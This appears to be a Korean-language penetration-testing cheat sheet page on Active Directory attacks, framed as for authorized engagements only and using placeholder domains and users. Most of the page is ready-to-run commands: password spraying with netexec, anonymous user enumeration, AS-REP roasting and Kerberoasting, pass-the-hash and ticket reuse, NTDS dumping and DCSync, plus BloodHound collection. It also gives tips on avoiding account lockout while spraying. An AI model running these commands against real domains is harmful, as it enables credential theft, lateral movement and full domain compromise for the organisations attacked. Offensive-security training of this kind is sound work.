

> AD 공격은 "자격증명이 있느냐"로 흐름이 갈립니다. 없으면 익명 열거로 사용자명을 모으고, 하나라도 생기면 디렉터리를 열거해 **공격 경로 그래프**를 그립니다. 예시의 도메인·사용자·해시·SID는 전부 플레이스홀더(`corp.local`, `$DC`, `$USER`)입니다.

## 개념



핵심: **새 권한을 얻을 때마다 그래프를 다시 그립니다.** 어제 막힌 경로가 오늘 얻은 ACL·해시로 열립니다.

## 공격·우회 구문

허가된 범위·계약된 대상에서만. 모든 식별자는 예시입니다.

### 인증 분무·접근 확인 — netexec(nxc)

```bash
# 한 계정으로 여러 프로토콜 확인
nxc smb   $DC -u $USER -p 'Password123'
nxc ldap  $DC -u $USER -p 'Password123' --users
nxc winrm $DC -u $USER -p 'Password123'

# 계정 목록 분무(성공해도 계속)
nxc smb $TARGET -u users.txt -p 'Password123' --continue-on-success

# 공유·NTDS·LSA
nxc smb $TARGET -u $USER -p 'Password123' --shares
nxc smb $DC  -u $USER -p 'Password123' --ntds
```

> 판단 포인트: 분무는 **"비밀번호 1개 × 사용자 다수"**가 안전합니다("사용자 1 × 비밀번호 다수"는 잠금 유발). 잠금 정책(`--pass-pol`)을 먼저 확인합니다.

### 열거 — rpcclient · ldapsearch

```bash
# 익명 RPC로 사용자 열거
rpcclient -U '' -N $DC -c 'enumdomusers'

# LDAP 명명 컨텍스트 → 전체 덤프
ldapsearch -H ldap://$DC -x -s base namingcontexts
ldapsearch -H ldap://$DC -x -b 'DC=corp,DC=local' '(objectClass=person)'
```

### Kerberos — AS-REP / Kerberoasting

```bash
# 사용자명 열거(Kerberos)
kerbrute userenum --dc $DC -d corp.local users.txt

# AS-REP Roasting (사전인증 비활성 계정)
impacket-GetNPUsers corp.local/ -usersfile users.txt -dc-ip $DC -outputfile asrep.hash

# Kerberoasting (SPN 계정의 TGS)
impacket-GetUserSPNs -request -dc-ip $DC corp.local/$USER -outputfile spn.hash
```

획득한 `asrep.hash`·`spn.hash`는 [크래킹 치트시트](/notes/password-credential-cheatsheet/)의 hashcat 모드 18200·13100으로 넘깁니다.

### 티켓·해시 재사용

| 가진 것 | 명령 |
|---|---|
| NT 해시로 원격 실행(PtH) | `impacket-wmiexec -hashes :$NTHASH $USER@$TARGET` |
| 티켓으로 로그인 | `export KRB5CCNAME=t.ccache; impacket-psexec -k -no-pass corp.local/$USER@$DC` |
| 계정→TGT 발급 | `impacket-getTGT -dc-ip $DC corp.local/$USER:'Password123'` |
| DCSync(특정 사용자) | `impacket-secretsdump -just-dc-user $USER corp.local/$ADMIN@$DC` |

### BloodHound — 경로 그래프

```bash
# 원격 수집(파이썬)
bloodhound-ce-python -c all -d corp.local -u $USER -p 'Password123' -ns $DC --zip
```

> 판단 포인트: BloodHound가 비어 보여도 포기하지 말고, 접근 가능한 마지막 호스트에서 수집기를 직접 돌리면 세션·로컬 관리자 관계가 추가로 잡힙니다. `GenericAll`·`WriteDACL`·`ForceChangePassword` edge가 보이면 그게 다음 공격 경로입니다.

## 함께 보기

- [모의침투 작전 흐름](/notes/penetration-testing-operation-flow/)
- [자격증명 공격·크래킹 치트시트](/notes/password-credential-cheatsheet/)
- [윈도우 권한 상승](/notes/windows-privilege-escalation/)

## 참고 자료

- [MITRE ATT&CK: Steal or Forge Kerberos Tickets (T1558)](https://attack.mitre.org/techniques/T1558/)
- [Microsoft: Active Directory security best practices](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/best-practices-for-securing-active-directory)
- [MITRE ATT&CK: OS Credential Dumping — DCSync (T1003.006)](https://attack.mitre.org/techniques/T1003/006/)
